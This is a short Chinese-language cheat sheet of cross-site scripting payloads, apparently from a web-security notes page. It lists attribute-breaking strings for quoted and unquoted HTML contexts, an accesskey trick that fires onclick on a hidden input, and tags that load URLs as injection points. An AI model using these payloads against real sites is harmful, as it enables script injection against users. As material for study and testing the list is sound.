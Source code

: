 1. 双引号payloads

   ```html
   "autofocus onfocus="alert(1)
   "autofocus onfocus=alert(1)//
   "onbeforescriptexecute=alert(1)//
   "onmouseover="alert(1)//
   "autofocus onblur="alert(1)
   ```

2. 单引号payloads

   ```html
   'autofocus onfocus='alert(1)
   'autofocus onfocus=alert(1)//
   'onbeforescriptexecute=alert(1)//
   'onmouseover='alert(1)//
   'autofocus onblur='alert(1)
   ```

3. 无引号payloads

   ```html
   autofocus onfocus=alert(1)//
   onbeforescriptexecute=alert(1)//
   onmouseover=alert(1)//
   ```

4. hidden标签

   在`onclick`事件下，使用accessKey

   ```html
   <html>
   ..
   <input type="hidden" value="{{用户输入}}" />
   ..
   </html>
   ```

   Payload：`"accesskey="X" onclick="alert(1)"`，为了触发事件，需要按Alt+X 键。

   > 这个accessKey时用来干嘛？——accessKey 属性可设置或返回访问单选按钮的快捷键。
   >
   > 就是我要触发这个hidden按钮，可以通过alt+X快捷键来代替鼠标点击
   >
   > mac下是啥。。。

### URL中

使用了加载URL的标签

```html
<script src="{}"></script>
<a href="{}">Click</a>
<iframe src="{}" />
<base href="{}">
<form action={}>
<button>X</button>  
<frameset><frame src="{}"></frameset>
```
